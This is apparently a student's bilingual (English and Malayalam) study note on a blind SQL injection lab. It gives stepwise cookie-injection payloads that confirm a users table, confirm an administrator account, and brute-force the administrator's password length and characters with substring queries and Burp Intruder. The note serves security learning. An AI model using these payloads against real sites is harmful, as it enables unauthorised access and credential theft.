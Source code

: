    -----------------------------------------------------------------
   
                       Lab-5(## Blind SQL injection vulnerabilities)
			                 ===================================
		
-->The application does not return the results of the SQL query or the details of any database errors within its responses.
-->Blind vulnerabilities can still be exploited to access unauthorized data, but the techniques involved are generally more complicated and difficult to perform.
-->Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
-->ivide response onum kanan pattathath kond thanne UNION type attack onum nadakila.

####  Exploiting blind SQL injection by triggering conditional responses:
  oru example ilude padikam
-->oru app cokkies use chyth trac chyunu
         -->Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
-->When a request containing a `TrackingId` cookie is processed:
    -->SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'    ingane aayirikum query undavuka.
-->nammal cookie header il cookie k shesham =='+and+1=1--== enn itt test chyth nokuka.(= enath chlepo url encode chyanamayirikum)
       
    Lab-5.a(practical-Blind SQL injection with conditional responses):

-->ivide conditional(true/false) aaya karyangal use chyumbol work aavunund.so athukondnammal 1=1 oke use chyth oron kandupidikunu
-->firsrt confirm the param is vulnerable to blind sql i
-->ivide cookie parameteril aan test chyendath
         -->cookie'+and+1=1-- itt nokuka.ok aanenkil blind sql i und
-->second confirm that we have a users table:
    -->'+and+(select+'x'+from+users+LIMIT+1)='x'--            (yes it exist)
-->third confirm that username administrator exist in the users table:
     -->'+and+(select+username+from+users+where+username='administrator')
               ='administrator'--    (better url encode on burp before clicking send)
     ivide namuk welcome back enn kanam which means administrator enna username und.
	 nammal chyunath correct aano enn ariyan "wlcome back" enna msg varunundo enn nokiya mathi
-->fourth enumerate the password of the administrator:
-->'+and+(select+username+from+users+where+username='administrator'+and+
      LENGTH(password)>1)='administrator'--;     (url encode chyuka)
-->ee saththanam nammal burp intruderil itt brute force chyth nokanam.apol ariyan patum password inte correct length.ok.ipol length masasilayi ini charecters nokam
-->'+and+(select+substring(password,1,1)+from+users+where+username=
     'administrator')='a'--;                (Note oracle il substr mathrame uloo)
	==NOTE:ivide password,1,1 ile first 1 ennath onamathe charecter 'a' aano enn nokunathan.aanengil-password,2,1 itt mattoru letter nokanam.ok==
-->ivide 'a' enna sthalam nammal brute force chyunu angane namuk oro passwd charectersum kandupidikam.angane namuk admin nte full passwd kitum.

####  Inducing conditional responses by triggering SQL errors:
-->ivide nerthe pole condiitonal aaya response vech karyangal chyan pattila
